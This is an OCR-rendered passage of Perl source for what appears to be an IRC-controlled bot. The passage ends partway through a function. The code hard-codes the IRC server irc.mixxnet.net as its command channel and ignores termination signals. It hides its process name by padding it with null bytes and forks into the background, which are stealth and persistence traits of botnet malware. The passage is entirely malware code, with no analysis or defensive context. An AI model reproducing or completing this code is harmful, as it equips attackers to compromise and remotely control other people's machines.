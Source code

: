 #Nickname of bot  

my $ircname ='[Protection]'; 

chop (my $realname = '[Protection]-'); 

#IRC name and Realname  

$servidor='irc.mixxnet.net' unless $servidor; 

my $porta='6667';  

############################################ 

$SIG{'INT'} = 'IGNORE'; 

$SIG{'HUP'} = 'IGNORE'; 

$SIG{'TERM'} = 'IGNORE'; 

$SIG{'CHLD'} = 'IGNORE'; 

$SIG{'PS'} = 'IGNORE'; 

use IO::Socket; 

use Socket; 

use IO::Select; 

chdir("/"); 

  

#Connect 

$servidor="$ARGV[0]" if $ARGV[0]; 

$0="$processo"."\0"x16;; 

my $pid=fork; 

exit if $pid; 

die "Masalah fork: $!" unless defined($pid); 

  

our %irc_servers; 

our %DCC; 

my $dcc_sel = new IO::Select->new(); 

$sel_cliente = IO::Select->new(); 

sub sendraw { 

   if ($#_ == '1') { 

      my $socket = $_[0]; 

      print $socket "$_[1]\n"; 

  

   } else { 
